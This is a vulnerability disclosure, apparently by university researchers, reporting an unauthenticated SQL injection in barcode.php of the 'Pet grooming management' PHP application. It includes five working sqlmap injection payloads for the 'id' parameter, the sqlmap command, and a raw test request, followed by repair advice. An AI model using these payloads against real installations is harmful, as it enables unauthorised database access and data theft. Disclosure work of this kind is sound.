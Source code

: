 # Pet grooming management barcode.php  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Chenguang Wang-GuangZhou University
- Zhihong Tian-GuangZhou University

## VERSION(S)

- V1.0

## Software Link

- https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'barcode.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "barcode.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- stacked queries
- UNION query

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 6506=(SELECT (CASE WHEN (6506=6506) THEN 6506 ELSE (SELECT 1008 UNION SELECT 6846) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x716a6b6271,(SELECT (ELT(9029=9029,1))),0x716b717171),9029)-- adDh
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2212 FROM (SELECT(SLEEP(5)))Zamk)-- mrOD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 21 columns
    Payload: id=-1070' UNION ALL SELECT CONCAT(0x716a6b6271,0x67766b62736446454b7548736b786f6d4f6545576c42444c4e465477786f41686975684156534b63,0x716b717171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT [QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250902111408359](img/image-20250902111408359.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python3 sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /admin/barcode.php HTTP/1.1
Host: 192.168.31.222:8883
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: UserName=test1; PassWord=16d7a4fca7442dda3ad93c9a726597e4; Bus_Booking_System=bq1kveujc3osm8re7oiikt4hhj; columns-customers_view={%22customers-fullname%22:true%2C%22customers-phone%22:true%2C%22customers-id_number%22:true}; PHPSESSID=p1oiu687ec8r1n6qnj58qo4850
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

id=1*
```

# Attack results

![image-20250902111434101](img/image-20250902111434101.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
